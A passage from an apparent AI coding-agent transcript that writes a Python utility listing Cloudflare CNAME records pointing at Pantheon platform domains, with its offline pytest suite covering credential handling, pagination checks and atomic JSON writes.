through.\n\n    record.settings is a pydantic model (cloudflare.types.dns.cname_record.Settings), which\n    json.dump cannot serialize.  mode=\"json\" also coerces any nested exotic types.  The\n    getattr guard is what lets the test fakes pass a plain dict or None.\n    \"\"\"\n    dump = getattr(value, \"model_dump\", None)\n    if dump is None:\n        return value\n    return dump(mode=\"json\")\n\n\ndef collect_entries(zone_records):\n    \"\"\"Fold (zone_id, record) pairs into the output mapping.  Returns (entries, warnings).\n\n    A record is kept only when it is a CNAME whose content is a *.pantheonsite.io hostname.\n    Proxy status is NOT part of the test -- that is exactly what separates this script from\n    fqdns.json, which is built with proxied=True and therefore cannot see a DNS-only record.\n\n    Every scalar (zone_id, record_id, proxied, ttl, comment, tags, settings) is\n    FIRST-RECORD-WINS, mirroring how fqdns.json already keeps only the first zone_id for a name.\n    `origins` accumulates every match, so a name that matches more than once stays visible in the\n    file and not only in the warning.\n\n    `zone_records` is consumed lazily, so the caller can hand over a generator and the whole\n    organization's record set is never held in memory at once.\n    \"\"\"\n    entries = {}\n    warnings = []\n    for zone_id, dns_record in zone_records:\n        if getattr(dns_record, \"type\", None) != \"CNAME\":\n            continue\n        content = getattr(dns_record, \"content\", None)\n        if content is None or not is_platform_domain(content):\n            continue\n        name = normalize(dns_record.name)\n        entry = entries.get(name)\n        if entry is None:\n            entries[name] = {\n                \"zone_id\": zone_id,\n                \"origins\": [content],\n                \"record_id\": dns_record.id,\n                # proxied is Optional[bool] on every record model (a None is possible); the\n                # getattr default also keeps the fold total for the namespace test fakes.\n                \"proxied\": bool(getattr(dns_record, \"proxied\", False)),\n                \"ttl\": getattr(dns_record, \"ttl\", None),\n                \"comment\": getattr(dns_record, \"comment\", None),\n                \"tags\": list(getattr(dns_record, \"tags\", None) or []),\n                \"settings\": plain(getattr(dns_record, \"settings\", None)),\n            }\n            continue\n        entry[\"origins\"].append(content)\n        # Warn on EVERY duplicate, not only a cross-zone one.  The file keeps one record_id of\n        # two and feeds a destructive rewrite, so silence is the wrong default even for the\n        # same-zone case -- which the Cloudflare API should make unreachable (a name may hold at\n        # most one CNAME), making a warning there a signal worth seeing.\n        if entry[\"zone_id\"] == zone_id:\n            warnings.append(\n                f\"ATTENTION: {name} has more than one platform-domain CNAME in zone {zone_id}, \"\n                f\"which the Cloudflare API should not permit; keeping record_id \"\n                f\"{entry['record_id']}\")\n        else:\n            warnings.append(\n                f\"ATTENTION: {name} has a platform-domain CNAME in more than one Cloudflare \"\n                f\"zone ({entry['zone_id']} and {zone_id}); keeping the first zone_id/record_id\")\n    return entries, warnings\n\n\ndef expected_record_count(page):\n    \"\"\"Cloudflare's total_count for a record page, or None when it is not available.\n\n    result_info's model (V4PagePaginationArrayResultInfo) declares only page/per_page, but its\n    model_config is extra=\"allow\", so the API's count/total_count survive as model_extra.\n    Returning None rather than guessing makes the caller's cross-check a no-op wherever the field\n    is absent, so it can never abort a healthy sweep.\n    \"\"\"\n    info = getattr(page, \"result_info\", None)\n    extra = getattr(info, \"model_extra\", None) or {}\n    total = extra.get(\"total_count\")\n    return total if isinstance(total, int) else None\n\n\ndef api_error_text(e):\n    \"\"\"A message for a Cloudflare API failure that NEVER includes the response body.\n\n    APIStatusError's str() is \"Error code: NNN - {body}\"; a DNS-record body echoes record\n    contents and an auth-failure body can echo the credential.  The class plus the status code is\n    what an operator needs in order to act.\n    \"\"\"\n    status = getattr(e, \"status_code\", None)\n    if status is not None:\n        return f\"{type(e).__name__}: HTTP {status}\"\n    return f\"{type(e).__name__}: {e}\"\n\n\ndef fetch_platform_cnames(client, *, verbose=False):\n    \"\"\"Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.\n\n    Returns (entries, warnings, zone_count, account_count).\n\n    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is\n    fetched and inspected here.  That is what \"consider all DNS records\" means, and per the spec\n    no work goes into making it faster.  (If a run ever becomes painful, type=\"CNAME\" on the\n    list call below is the one-word change.)\n\n    `client.dns.records.list()` returns a page-numbered paginator -- iterating it walks every\n    page, stopping when a page comes back empty -- so a single call is N HTTP requests.  A\n    truncated walk would write a silently incomplete file, so each zone's record count is\n    cross-checked against Cloudflare's own total_count when the API supplies one.\n\n    Zero zones is fatal, copied from fqdns.py's reasoning: with the scope missing, \"no zones\" and\n    \"no matching records\" write an identical empty file, and a silently empty file is the one\n    failure mode this script must not have.\n    \"\"\"\n    try:\n        accounts = list(client.accounts.list())\n        zones = []\n        for account in accounts:\n            zones.extend(client.zones.list(account={\"id\": account.id}))\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing accounts/zones failed: {api_error_text(e)}\") from e\n\n    if not zones:\n        raise StartupError(\n            f\"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials \"\n            \"likely lack Account:Read or DNS:Read (an accounts list that comes back empty \"\n            \"yields zero zones too).\")\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, lazily -- the org's whole record set is never resident.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            if verbose:\n                print(f\"[{number}/{len(zones)}] zone {zone.name}\", file=sys.stderr, flush=True)\n            page = client.dns.records.list(zone_id=zone.id)\n            expected = expected_record_count(page)\n            seen = 0\n            for dns_record in page:\n                seen += 1\n                yield zone.id, dns_record\n            if expected is not None and seen != expected:\n                raise StartupError(\n                    f\"zone {zone.name}: read {seen} DNS records but Cloudflare reported \"\n                    f\"{expected} -- the record list was truncated, so the output would be \"\n                    \"silently incomplete; not writing a partial file\")\n\n    try:\n        entries, warnings = collect_entries(zone_records())\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing DNS records failed: {api_error_text(e)}\") from e\n\n    return entries, warnings, len(zones), len(accounts)\n\n\ndef write_json_atomic(path, data) -> None:\n    \"\"\"Write data as JSON to a temp file in the same directory, then os.replace() it onto `path`.\n\n    Copied from plugin/cloudflare/fqdns.py's write_fqdns_atomic.  Atomic: an interrupted write\n    never leaves a half-written or truncated output file -- the previous one stays byte-intact.\n    \"\"\"\n    directory = os.path.dirname(os.path.abspath(path)) or \".\"  # noqa: PTH120, PTH100 --\n    # feeds tempfile.mkstemp's dir=, load-bearing for the atomic-rename-needs-same-filesystem\n    # guarantee this docstring documents; Path.resolve() follows symlinks where\n    # os.path.abspath() does not, a real semantic difference for the symlink case\n    fd, tmp = tempfile.mkstemp(dir=directory, prefix=\".platform-domains-\", suffix=\".tmp\")\n    try:\n        with os.fdopen(fd, \"w\") as f:\n            json.dump(data, f, indent=4, sort_keys=True)\n            f.write(\"\\n\")\n        # mkstemp creates the temp file mode 0600, which os.replace would preserve; restore a\n        # normal umask-based mode (typically 0644) so other readers keep their access.\n        current_umask = os.umask(0)\n        os.umask(current_umask)\n        os.chmod(tmp, 0o666 & ~current_umask)  # noqa: PTH101 -- behavior surface, see above\n        os.replace(tmp, path)  # noqa: PTH105 -- THE atomic-replace call this docstring documents\n    except BaseException:  # incl. KeyboardInterrupt: drop the temp file, leave the old one intact\n        try:  # noqa: SIM105 -- not restructuring the BaseException cleanup handler's flow\n            os.unlink(tmp)  # noqa: PTH108 -- cleanup path of the same behavior surface\n        except FileNotFoundError:\n            pass\n        raise\n\n\ndef build_arg_parser():\n    parser = argparse.ArgumentParser(\n        allow_abbrev=False,          # house rule: no --for -> --for-real class of foot-gun\n        description=\"Write every Cloudflare CNAME record pointing at a Pantheon platform \"\n                    f\"domain to {OUTPUT_FILE}.\")\n    parser.add_argument(\"-c\", \"--config\", default=DEFAULT_CONFIG,\n                        help=f\"TOML file to read [Cloudflare] credentials from \"\n                             f\"(default: {DEFAULT_CONFIG})\")\n    parser.add_argument(\"-v\", \"--verbose\", action=\"store_true\",\n                        help=\"print each zone to stderr as it is scanned\")\n    return parser\n\n\ndef main(argv):\n    \"\"\"Exit 0 = the output file was written, 2 = could not complete, 130 = interrupted.\n\n    There is deliberately no exit 1: the sibling find-platform-domains-dns reserves it for\n    \"completed with indeterminates\" because a DNS lookup can be indeterminate, whereas a\n    Cloudflare list call either returns or raises.  Holding that line takes the two conversions\n    to StartupError below and the two inside resolve_env_marker/cloudflare_client -- an OSError\n    on the write and a ValueError from shlex both escaped as raw tracebacks at exit 1 until they\n    were named (adversarial review, finding 3).  A doomed stderr can still produce exit 120 from\n    the interpreter's shutdown flush; that is accepted and documented in SPEC section 5.4.\n\n    stdout carries only argparse's usage/--help text; every operator message goes to stderr.\n    \"\"\"\n    options = build_arg_parser().parse_args(argv)\n    try:\n        client = cloudflare_client(options.config)\n        entries, warnings, zone_count, account_count = fetch_platform_cnames(\n            client, verbose=options.verbose)\n        for message in warnings:\n            print(message, file=sys.stderr, flush=True)\n        try:\n            write_json_atomic(OUTPUT_FILE, entries)\n        except OSError as e:\n            # A full disk or a read-only directory lands here AFTER the whole multi-minute walk.\n            raise StartupError(f\"cannot write {OUTPUT_FILE}: {e}\") from e\n        dns_only = sum(1 for entry in entries.values() if not entry[\"proxied\"])\n        print(f\"Wrote {len(entries)} platform-domain CNAMEs ({dns_only} DNS-only, invisible to \"\n              f\"fqdns.json) from {zone_count} zones in {account_count} account(s) to \"\n              f\"{OUTPUT_FILE}.\", file=sys.stderr, flush=True)\n        if not entries:\n            print(f\"ATTENTION: no platform-domain CNAMEs found in {zone_count} zones; \"\n                  f\"{OUTPUT_FILE} was written empty.\", file=sys.stderr, flush=True)\n    except StartupError as e:\n        print(f\"ERROR: {e}\", file=sys.stderr, flush=True)\n        return 2\n    except KeyboardInterrupt:\n        # The write is atomic, so the file is either untouched or complete -- never half-written.\n        print(f\"INTERRUPTED: {OUTPUT_FILE} is either unchanged or fully written.\",\n              file=sys.stderr, flush=True)\n        return 130\n    return 0\n\n\nif __name__ == \"__main__\":\n    sys.exit(main(sys.argv[1:]))\n"
}
```

### ↳ Tool result

```
File created successfully at: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/find-platform-domains-cloudflare (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/test_find_platform_domains_cloudflare.py",
  "content": "\"\"\"Offline tests for the find-platform-domains-cloudflare utility (SPEC section 4).\n\nThe script has no .py extension, so it is loaded with the SourceFileLoader idiom the suite\nalready uses for standalone scripts and check/plugin modules (see\ntests/unit/test_find_platform_domains_dns.py).  It is loaded FRESH PER TEST so no module-level\nstate leaks between tests -- which is also what makes monkeypatching module attributes safe in\nthe main() tests at the bottom.\n\nTEMPORARY, deleted with the script after the Pantheon CDN migration -- see\ndevelopment/2026-07-30-platform-domain-util2/SPEC.md section 8.\n\"\"\"\nimport importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\npytestmark = pytest.mark.unit\n\n# EVERY import for EVERY task in this file belongs in the block above.  Later tasks append\n# tests, not imports: ruff's E402 is not in the tests/** ignore list, so an import half way\n# down the file fails the gate.\n\nSCRIPT = Path(__file__).resolve().parent.parent.parent / \"find-platform-domains-cloudflare\"\n\n\n@pytest.fixture\ndef fpc():\n    \"\"\"The utility, loaded fresh.  Its entry point is __main__-guarded, so import runs nothing.\"\"\"\n    loader = SourceFileLoader(\"find_platform_domains_cloudflare_probe\", str(SCRIPT))\n    spec = importlib.util.spec_from_loader(loader.name, loader)\n    assert spec is not None\n    module = importlib.util.module_from_spec(spec)\n    loader.exec_module(module)\n    return module\n\n\ndef record(**overrides):\n    \"\"\"A stand-in for a cloudflare RecordResponse; the code under test only reads attributes.\"\"\"\n    fields = {\"type\": \"CNAME\", \"name\": \"www.example.edu\", \"id\": \"rec-1\",\n              \"content\": \"live-umich-example1.pantheonsite.io\", \"proxied\": True,\n              \"ttl\": 1, \"comment\": None, \"tags\": [], \"settings\": None}\n    fields.update(overrides)\n    return types.SimpleNamespace(**fields)\n\n\n# --- Task 1: the match rule ------------------------------------------------------------------\n\ndef test_normalize_strips_case_whitespace_and_the_root_dot(fpc):\n    assert fpc.normalize(\"  LIVE-Umich-X.PantheonSite.IO.  \") == \"live-umich-x.pantheonsite.io\"\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"live-umich-example1.pantheonsite.io\",\n    \"LIVE-UMICH-EXAMPLE1.PANTHEONSITE.IO\",\n    \"live-umich-example1.pantheonsite.io.\",\n])\ndef test_is_platform_domain_accepts_platform_hostnames(fpc, name):\n    assert fpc.is_platform_domain(name) is True\n\n\n@pytest.mark.parametrize(\"name\", [\n    \"notpantheonsite.io\",          # the leading dot in PLATFORM_SUFFIX is what rejects this\n    \"pantheonsite.io\",             # the bare apex is not a site's platform domain\n    \"www.example.edu\",\n    \"live-umich-example1.pantheonsite.io.evil.example\",\n])\ndef test_is_platform_domain_rejects_everything_else(fpc, name):\n    assert fpc.is_platform_domain(name) is False\n\n\n# --- Task 2: credentials ---------------------------------------------------------------------\n\ndef write_config(tmp_path, body):\n    \"\"\"A config file containing just a [Cloudflare] table.\"\"\"\n    path = tmp_path / \"config.toml\"\n    path.write_text(f\"[Cloudflare]\\n{body}\\n\")\n    return str(path)\n\n\ndef test_resolve_config_value_passes_literals_and_non_strings_through(fpc):\n    assert fpc.resolve_config_value(\"plain-literal\", \"where\") == \"plain-literal\"\n    assert fpc.resolve_config_value(True, \"where\") is True\n    assert fpc.resolve_config_value(None, \"where\") is None\n\n\n@pytest.mark.parametrize(\"marker\", [\"<{env CF_TEST_VAR}\", \"<{secret env CF_TEST_VAR}\"])\ndef test_resolve_config_value_reads_the_environment(fpc, monkeypatch, marker):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"from-the-environment\")\n    assert fpc.resolve_config_value(marker, \"where\") == \"from-the-environment\"\n\n\ndef test_resolve_config_value_substitutes_inside_a_larger_string(fpc, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_VAR\", \"middle\")\n    assert fpc.resolve_config_value(\"a<{env CF_TEST_VAR}z\", \"where\") == \"amiddlez\"\n\n\ndef test_resolve_config_value_uses_the_default_when_the_variable_is_unset(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    assert fpc.resolve_config_value(\"<{secret env CF_TEST_VAR fallback}\", \"where\") == \"fallback\"\n\n\ndef test_resolve_config_value_reports_an_unset_variable_with_no_default(fpc, monkeypatch):\n    monkeypatch.delenv(\"CF_TEST_VAR\", raising=False)\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env CF_TEST_VAR}\", \"config.toml [Cloudflare].api_key\")\n    assert \"CF_TEST_VAR\" in str(caught.value)\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_resolve_config_value_rejects_a_substitution_it_cannot_resolve(fpc):\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{secret aws cloudflare/token}\", \"where\")\n    assert \"secret aws cloudflare/token\" in str(caught.value)\n\n\ndef test_resolve_config_value_names_a_malformed_substitution(fpc):\n    \"\"\"An unbalanced quote makes shlex raise ValueError, which escaped as a raw traceback at\n    exit 1 -- a code SPEC section R6 does not use (adversarial review, finding 3).\"\"\"\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.resolve_config_value(\"<{env FOO don't}\", \"config.toml [Cloudflare].api_key\")\n    assert \"config.toml [Cloudflare].api_key\" in str(caught.value)\n\n\ndef test_cloudflare_client_prefers_the_api_token(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CF_TEST_TOKEN\", \"tok-123\")\n    path = write_config(tmp_path, 'api_token = \"<{secret env CF_TEST_TOKEN}\"\\n'\n                                  'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_token == \"tok-123\"\n\n\ndef test_cloudflare_client_sends_only_the_configured_credential(fpc, tmp_path, monkeypatch):\n    \"\"\"SPEC R2a, the security property itself rather than the attribute state that implements it.\n\n    The SDK back-fills unset credentials from the environment, and ambient values reach the wire\n    by TWO routes: auth_headers (which prefers X-Auth-Email over the bearer token) and\n    default_headers (which adds X-Auth-Email/X-Auth-Key whenever those attributes are not None).\n    Measured against cloudflare 5.4.0; an SDK that captured credentials at construction would\n    make this go red, which is the point.\n    \"\"\"\n    monkeypatch.setenv(\"CLOUDFLARE_EMAIL\", \"ambient@example.edu\")\n    monkeypatch.setenv(\"CLOUDFLARE_API_KEY\", \"ambient-key\")\n    path = write_config(tmp_path, 'api_token = \"tok-123\"')\n    client = fpc.cloudflare_client(path)\n    assert client.auth_headers == {\"Authorization\": \"Bearer tok-123\"}\n    sent = {value for value in client.default_headers.values() if isinstance(value, str)}\n    assert \"ambient@example.edu\" not in sent\n    assert \"ambient-key\" not in sent\n\n\ndef test_cloudflare_client_falls_back_to_email_and_key(fpc, tmp_path, monkeypatch):\n    monkeypatch.setenv(\"CLOUDFLARE_API_TOKEN\", \"ambient-token\")\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"\\napi_key = \"k-456\"')\n    client = fpc.cloudflare_client(path)\n    assert client.api_email == \"someone@example.edu\"\n    assert client.api_key == \"k-456\"\n    assert client.api_token is None\n    sent = {value for value in client.default_headers.values() if isinstance(value, str)}\n    assert \"ambient-token\" not in sent\n\n\ndef test_cloudflare_client_requires_both_email_and_key(fpc, tmp_path):\n    path = write_config(tmp_path, 'email = \"someone@example.edu\"')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n\n\ndef test_cloudflare_client_rejects_a_non_string_credential(fpc, tmp_path):\n    \"\"\"TOML is typed: `api_token = true` would otherwise reach the SDK and be stringified into\n    `Authorization: Bearer True` -- the confusing 401 the marker rules exist to prevent.\"\"\"\n    path = write_config(tmp_path, \"api_token = true\")\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(path)\n    assert \"api_token\" in str(caught.value)\n    assert \"bool\" in str(caught.value)\n\n\ndef test_cloudflare_client_without_a_cloudflare_section_is_a_startup_error(fpc, tmp_path):\n    path = tmp_path / \"config.toml\"\n    path.write_text('[Pantheon]\\norg_id = \"abc\"\\n')\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.cloudflare_client(str(path))\n    assert \"[Cloudflare]\" in str(caught.value)\n\n\ndef test_cloudflare_client_with_a_missing_file_is_a_startup_error(fpc, tmp_path):\n    with pytest.raises(fpc.StartupError):\n        fpc.cloudflare_client(str(tmp_path / \"nope.toml\"))\n\n\n# --- Task 3: the fold ------------------------------------------------------------------------\n\ndef test_collect_entries_builds_the_output_structure(fpc):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(ttl=300, comment=\"migrated\",\n                                                               tags=[\"cdn\"]))])\n    assert entries == {\n        \"www.example.edu\": {\n            \"zone_id\": \"zone-a\",\n            \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n            \"record_id\": \"rec-1\",\n            \"proxied\": True,\n            \"ttl\": 300,\n            \"comment\": \"migrated\",\n            \"tags\": [\"cdn\"],\n            \"settings\": None,\n        },\n    }\n    assert warnings == []\n\n\ndef test_collect_entries_keeps_dns_only_records(fpc):\n    \"\"\"The whole reason this script exists next to fqdns.json, which is proxied=True only.\"\"\"\n    entries, _ = fpc.collect_entries([(\"zone-a\", record(proxied=False))])\n    assert entries[\"www.example.edu\"][\"proxied\"] is False\n\n\ndef test_collect_entries_serializes_a_pydantic_settings_model(fpc):\n    \"\"\"record.settings is a pydantic model; json.dump cannot serialize one.\"\"\"\n    from cloudflare.types.dns.cname_record import Settings\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(settings=Settings(flatten_cname=True)))])\n    settings = entries[\"www.example.edu\"][\"settings\"]\n    assert settings == {\"flatten_cname\": True}\n    json.dumps(entries)   # the point: the entry must survive the real serializer\n\n\ndef test_collect_entries_tolerates_a_record_missing_the_optional_fields(fpc):\n    bare = types.SimpleNamespace(type=\"CNAME\", name=\"www.example.edu\", id=\"rec-1\",\n                                 content=\"live-umich-example1.pantheonsite.io\")\n    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"proxied\"] is False\n    assert entry[\"ttl\"] is None\n    assert entry[\"comment\"] is None\n    assert entry[\"tags\"] == []\n    assert entry[\"settings\"] is None\n\n\n@pytest.mark.parametrize(\"skipped\", [\n    {\"type\": \"A\", \"content\": \"23.185.0.4\"},\n    {\"type\": \"A\", \"content\": \"live-umich-example1.pantheonsite.io\"},   # not a CNAME\n    {\"type\": \"TXT\", \"content\": \"v=spf1 -all\"},\n    {\"type\": \"CNAME\", \"content\": \"www.example.edu.cdn.cloudflare.net\"},  # not a platform domain\n    {\"type\": \"CNAME\", \"content\": \"notpantheonsite.io\"},\n])\ndef test_collect_entries_skips_everything_that_is_not_a_platform_cname(fpc, skipped):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(**skipped))])\n    assert entries == {}\n    assert warnings == []\n\n\ndef test_collect_entries_normalizes_the_key_and_keeps_origins_raw(fpc):\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(name=\"WWW.Example.EDU.\",\n                           content=\"Live-Umich-Example1.PantheonSite.IO\"))])\n    assert list(entries) == [\"www.example.edu\"]\n    assert entries[\"www.example.edu\"][\"origins\"] == [\"Live-Umich-Example1.PantheonSite.IO\"]\n\n\ndef test_collect_entries_is_first_record_wins_across_zones_and_warns(fpc):\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\", proxied=True, ttl=1)),\n        (\"zone-b\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\", proxied=False, ttl=300)),\n    ])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"zone_id\"] == \"zone-a\"\n    assert entry[\"record_id\"] == \"rec-1\"\n    assert entry[\"proxied\"] is True\n    assert entry[\"ttl\"] == 1\n    assert entry[\"origins\"] == [\"live-a.pantheonsite.io\", \"live-b.pantheonsite.io\"]\n    assert len(warnings) == 1\n    assert \"www.example.edu\" in warnings[0]\n    assert \"zone-a\" in warnings[0]\n    assert \"zone-b\" in warnings[0]\n\n\ndef test_collect_entries_warns_for_two_matches_in_one_zone(fpc):\n    \"\"\"API-unreachable (a name holds at most one CNAME), but the file would keep one record_id\n    of two and feed a destructive rewrite, so silence is the wrong default.\"\"\"\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\")),\n        (\"zone-a\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\")),\n    ])\n    assert entries[\"www.example.edu\"][\"record_id\"] == \"rec-1\"\n    assert len(warnings) == 1\n    assert \"rec-1\" in warnings[0]\n\n\n# --- Task 4: the atomic write ----------------------------------------------------------------\n\ndef test_write_json_atomic_writes_sorted_indented_json_with_a_trailing_newline(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    fpc.write_json_atomic(str(target), {\"b\": {\"zone_id\": \"z\"}, \"a\": {\"zone_id\": \"y\"}})\n    text = target.read_text()\n    assert text.endswith(\"\\n\")\n    assert list(json.loads(text)) == [\"a\", \"b\"]\n    assert '    \"a\"' in text          # indent=4\n\n\ndef test_write_json_atomic_overwrites_an_existing_file_and_leaves_no_temp_file(fpc, tmp_path):\n    \"\"\"SPEC: the output file is regenerated in full on every run, whatever its age.\"\"\"\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"stale\": {\"zone_id\": \"old\"}}\\n')\n    fpc.write_json_atomic(str(target), {})\n    assert json.loads(target.read_text()) == {}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\ndef test_write_json_atomic_leaves_the_previous_file_intact_when_serialization_fails(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"previous\": {\"zone_id\": \"kept\"}}\\n')\n    with pytest.raises(TypeError):\n        fpc.write_json_atomic(str(target), {\"bad\": {object()}})\n    assert json.loads(target.read_text()) == {\"previous\": {\"zone_id\": \"kept\"}}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\n# --- Task 5: the walk and the CLI ------------------------------------------------------------\n\nclass FakePage:\n    \"\"\"A stand-in for SyncV4PagePaginationArray.\n\n    Iterating the real page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so\n    this fake yields across two chunks: an implementation that read `page.result` instead would\n    see only the first, and this fake has no `result` attribute at all, so it would fail loudly.\n    \"\"\"\n\n    def __init__(self, chunks, total_count=None, *, with_result_info=True):\n        self._chunks = chunks\n        self.result_info = types.SimpleNamespace(\n            model_extra={} if total_count is None else {\"total_count\": total_count},\n        ) if with_result_info else None\n\n    def __iter__(self):\n        for chunk in self._chunks:\n            yield from chunk\n\n\nclass FakeCloudflareClient:\n    \"\"\"The three list() calls fetch_platform_cnames makes, and nothing else.\"\"\"\n\n    def __init__(self, accounts, zones, pages_by_zone, error=None):\n        self._error = error\n        self._pages_by_zone = pages_by_zone\n        self.accounts = types.SimpleNamespace(list=lambda: list(accounts))\n        self.zones = types.SimpleNamespace(list=lambda account: list(zones))\n        self.dns = types.SimpleNamespace(records=types.SimpleNamespace(list=self._records))\n\n    def _records(self, zone_id):\n        if self._error is not None:\n            raise self._error\n        return self._pages_by_zone.get(zone_id, FakePage([[]]))\n\n\ndef account(identifier=\"acct-1\"):\n    return types.SimpleNamespace(id=identifier)\n\n\ndef zone(identifier, name=\"example.edu\"):\n    return types.SimpleNamespace(id=identifier, name=name)\n\n\ndef test_fetch_platform_cnames_walks_every_zone_regardless_of_proxy_status(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\n            \"zone-a\": FakePage([[record(name=\"proxied.example.edu\", id=\"rec-1\", proxied=True),\n                                 record(name=\"mail.example.edu\", id=\"rec-2\", type=\"MX\",\n                                        content=\"mx.example.edu\")]]),\n            \"zone-b\": FakePage([[record(name=\"dnsonly.example.org\", id=\"rec-3\", proxied=False)]]),\n        })\n    entries, warnings, zone_count, account_count = fpc.fetch_platform_cnames(client)\n    assert sorted(entries) == [\"dnsonly.example.org\", \"proxied.example.edu\"]\n    assert entries[\"dnsonly.example.org\"][\"proxied\"] is False\n    assert warnings == []\n    assert (zone_count, account_count) == (2, 1)\n\n\ndef test_fetch_platform_cnames_reads_every_page(fpc):\n    \"\"\"Pagination: a single list() call is N HTTP requests, and a truncated walk would write a\n    silently incomplete file.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage(\n            [[record(name=\"page1.example.edu\", id=\"rec-1\")],\n             [record(name=\"page2.example.edu\", id=\"rec-2\")]], total_count=2)})\n    entries, _, _, _ = fpc.fetch_platform_cnames(client)\n    assert sorted(entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n\n\ndef test_fetch_platform_cnames_aborts_on_a_truncated_record_list(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage([[record()]], total_count=3)})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"read 1 DNS records but Cloudflare reported 3\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_does_not_abort_when_total_count_is_absent(fpc):\n    \"\"\"The cross-check must no-op wherever Cloudflare omits total_count, so it can never abort a\n    healthy sweep.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage([[record()]], with_result_info=False)})\n    entries, _, _, _ = fpc.fetch_platform_cnames(client)\n    assert list(entries) == [\"www.example.edu\"]\n\n\ndef test_fetch_platform_cnames_treats_zero_zones_as_fatal(fpc):\n    \"\"\"A missing scope and a genuinely empty org produce an identical empty file.\"\"\"\n    client = FakeCloudflareClient(accounts=[account()], zones=[], pages_by_zone={})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"0 zones\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_turns_an_api_error_into_a_startup_error(fpc):\n    import cloudflare\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")], pages_by_zone={},\n        error=cloudflare.APIConnectionError(request=None))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"DNS records\" in str(caught.value)\n\n\ndef test_api_error_text_never_includes_the_response_body(fpc):\n    \"\"\"A DNS-record response body echoes record contents; an auth-failure body can echo the\n    credential.  The class plus the status code is what an operator needs.\"\"\"\n    class FakeStatusError(Exception):\n        status_code = 403\n\n        def __str__(self):\n            return \"Error code: 403 - {'errors': [{'message': 'token cf-secret-xyz invalid'}]}\"\n\n    text = fpc.api_error_text(FakeStatusError())\n    assert \"403\" in text\n    assert \"FakeStatusError\" in text\n    assert \"cf-secret-xyz\" not in text\n\n\ndef test_main_writes_the_file_and_reports_the_dns_only_count(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\", lambda client, verbose=False: (\n        {\"a.example.edu\": {\"zone_id\": \"z\", \"origins\": [\"live-a.pantheonsite.io\"],\n                           \"record_id\": \"r\", \"proxied\": False, \"ttl\": 1,\n                           \"comment\": None, \"tags\": [], \"settings\": None}},\n        [\"ATTENTION: something worth seeing\"], 4, 1))\n    assert fpc.main([\"-c\", \"ignored.toml\"]) == 0\n    written = 